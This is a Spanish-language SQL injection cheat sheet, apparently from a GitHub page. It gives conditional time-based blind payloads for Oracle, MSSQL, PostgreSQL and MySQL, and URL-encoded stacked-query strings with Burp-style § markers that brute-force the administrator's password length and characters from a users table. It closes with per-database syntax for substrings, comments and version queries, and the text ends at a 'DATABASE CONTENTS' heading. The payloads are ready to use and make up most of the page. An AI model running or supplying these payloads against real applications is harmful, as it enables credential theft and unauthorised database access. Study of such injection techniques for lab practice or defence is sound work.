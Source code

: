 podemos tstear los siguientes payload basados en tiempo con condicional:

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`|

```bash
'%3bSELECT pg_sleep(10)-- -

'%3bSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- -

'%3bSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--

'%3bSELECT+CASE+WHEN+(length(password)=§1§)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--

'%3bSELECT+CASE+WHEN+(length(SUBSTRING(password,§1§,1)='§c§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--
```

# SQL INJECTION CHEATSHEET

## SUBSTRING

- oracle -> `SUBSTR('foobar', 4, 2)`
- microsoft -> `SUBSTRING('foobar', 4, 2)`
- mysql -> `SUBSTRING('foobar', 4, 2)`
- postgreSQL -> `SUBSTRING('foobar', 4, 2)`

## COMENTARIOS

- oracle -> `--comment`
- microsoft -> `--comment` o `/*comment*/`
- mysql -> `--comment` o `/*comment*/` o `#comment`
- postgreSQL -> `--comment` o `/*comment*/`

## DATABASE VERSION

- oracle -> `SELECT banner FROM v$version` o `SELECT version FROM v$instance`
- microsoft -> `select @@version`
- mysql -> `select @@version`
- postgreSQL -> `select version()`

## DATABASE CONTENTS
